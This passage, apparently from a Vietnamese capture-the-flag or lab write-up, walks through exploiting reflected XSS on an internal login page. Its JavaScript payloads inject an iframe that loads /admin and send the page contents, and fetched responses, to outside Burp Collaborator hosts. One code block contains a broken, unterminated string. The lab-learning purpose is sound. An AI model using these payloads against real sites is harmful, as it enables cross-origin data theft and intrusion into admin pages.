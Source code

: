 ```javascript!
			q.shift()(wait);
		}
	}, wait);
}
</script>
```

Ta thu được mã nguồn của trang web nội bộ đó, giao diện như sau:
>![](https://i.imgur.com/Qgyebvo.png)

>![](https://i.imgur.com/mkkAMrB.png)

Thử đăng nhập với tài khoản và mật khẩu là `<script>alert(1)</script>`, ta thấy nó trả về:
```javascript!
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
        url = url +  '/login?time='+Date.now()+'&username='+encodeURIComponent('<script>alert(1)</script>')+'&password=test
	fetch(url).then(r => r.text().then(text => {
		location = collaboratorURL+ '?code='+encodeURIComponent(text)+'&'+Date.now();
	}))
}

fetchUrl("http://192.168.0.218:8080", "http://w308ppvxykk9aozva5qf5mkptgzlna.oastify.com");
</script>
```
>![](https://i.imgur.com/dIvaZgd.png)

>![](https://i.imgur.com/9ZV34fG.png)


Vậy là trang web này có chứa lỗi XSS, ta có thể khai thác để gửi cross-origin request tới trang web chính.

Đầu tiên cần kiểm tra xem trang `/admin` có nội dung gì.


```javascript!


<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r=>r.text().then(text=>
	{
		xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
	}
	))
}

fetchUrl("http://192.168.0.218:8080", "http://nlcz7gdogb20sfhmsw86nd2gb7hy8mx.oastify.com");
</script>
```
>![](https://i.imgur.com/i1mEA32.png)
